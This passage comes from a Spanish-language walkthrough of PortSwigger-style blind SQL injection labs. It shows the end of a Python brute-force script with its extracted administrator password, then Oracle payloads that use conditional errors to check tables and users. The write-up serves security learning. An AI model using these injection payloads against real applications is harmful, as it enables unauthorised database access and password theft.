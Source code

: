 ```python

if __name__ == '__main__':

        makeRequest()
```

Donde pone `TrackingId` tendremos que poner el nuestro que aparece en la captura de BurpSuit hasta antes de la `'`, donde pone `session` igual, lo que nos aparezca a nosotros y por ultimo donde pone `main_url` lo que contiene nuestro `host` en el `request` capturado añadiendole `https://`...

```shell
python3 SQLI_Conditional_Response.py
```

Info:

```
[◢] Fuerza bruta: BvroHPKR23vLwHzo' and (select substring(password,20,1) from users where username='administrator')='b
[<] Password: 8jumk2e52dxl45m51lgb
```

Una vez hecho todo esto tendriamos la contraseña, la probamos y ya estaria hecha...

### Lab: Blind SQL injection with conditional errors

En esta parctica lo que debemos de hacer es parecido a la anterior pero en este caso hay que jugar con los errores de la pagina, por lo que nos tendremos que guiar por eso...

Utilizaremos el BurpSuit para capturar la peticion de la pagina y llevandolo al `Repeater` con `^R` podremos ir probando hay inyecciones de comandos...

```mysql
'||(select '')||';
```

Si lo dejamos asi nos dara error por lo que nos da a entender que tiene que ser otro tipo de base de datos la que se esta manejando...

```mysql
'||(select '' from dual)||';
```

Si ponemos eso si nos va a ir, por lo que estamos trabajando con un `Oracle`, ahora para seguir viendo si vamos bien haremos diferentes comprobaciones de si estamos acertando la tabla o no...

```mysql
'||(select '' from users where rownum=1)||';
```

Esto nos da un `200 OK` por lo que la tabla `users` existe de por si y no nos esta dando ningun fallo, asi que vamos bien...

```mysql
'||(select case when (1=1) then to_char(1/0) else '' end from users where username='administrator')||';
```

Lo que estamos haciendo aqui es que primero va a comprobar si la linea `from users where username='administrator'` es correcta (Si existe el usuario `administrator`) y si es asi hace la accion de lo siguiente que es `select case when (1=1) then to_char[1/0] else '' end` basicamente como existe y como `1=1` siempre va hacer la operacion de `1/0` como eso siempre va a ser un error nos dara el error `500`, pero si ponemos lo siguiente...
